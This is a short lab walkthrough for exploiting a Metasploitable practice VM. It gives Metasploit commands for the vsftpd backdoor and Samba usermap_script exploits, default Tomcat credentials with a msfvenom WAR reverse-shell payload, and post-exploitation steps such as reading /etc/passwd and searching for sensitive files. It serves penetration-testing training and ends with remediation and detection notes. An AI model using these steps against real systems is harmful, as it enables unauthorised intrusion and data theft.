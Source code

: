 # Exploitation Walkthrough

This walkthrough covers selected exploits against the Metasploitable VM. Always ensure snapshots are taken before executing these steps.

## Exploit 1 – VSFTPD Backdoor (Port 21)

1. Launch Metasploit: `msfconsole`.
2. Use the module: `use exploit/unix/ftp/vsftpd_234_backdoor`.
3. Set options:
   ```
   set RHOSTS 192.168.56.20
   ```
4. Run the exploit: `run`.
5. Verify the spawned shell and capture evidence in the report.

## Exploit 2 – Samba Usermap Script (Port 139)

1. Use the module: `use exploit/multi/samba/usermap_script`.
2. Set target IP and payload (`cmd/unix/reverse`).
3. Execute and document the resulting shell access.
4. Enumerate `/etc/passwd` and gather proof files.

## Exploit 3 – Tomcat Manager Credentials (Port 8180)

1. Visit `http://192.168.56.20:8180/manager/html` from the Kali browser.
2. Attempt default credentials `tomcat:tomcat`.
3. If successful, deploy a WAR payload generated by `msfvenom`.
4. Record the reverse shell output and cleanup steps.

## Post-Exploitation

- Gather system information: `uname -a`, `id`, `netstat -tulnp`.
- Search for sensitive files in `/home` and `/var/www`.
- Maintain evidence logs in `reports/exploitation_notes.md`.

## Lessons Learned

Reflect on each exploit by noting:

- Vulnerability description and CVE identifier.
- Exploitation prerequisites.
- Recommended remediation steps.
- Detection methods for blue teams.
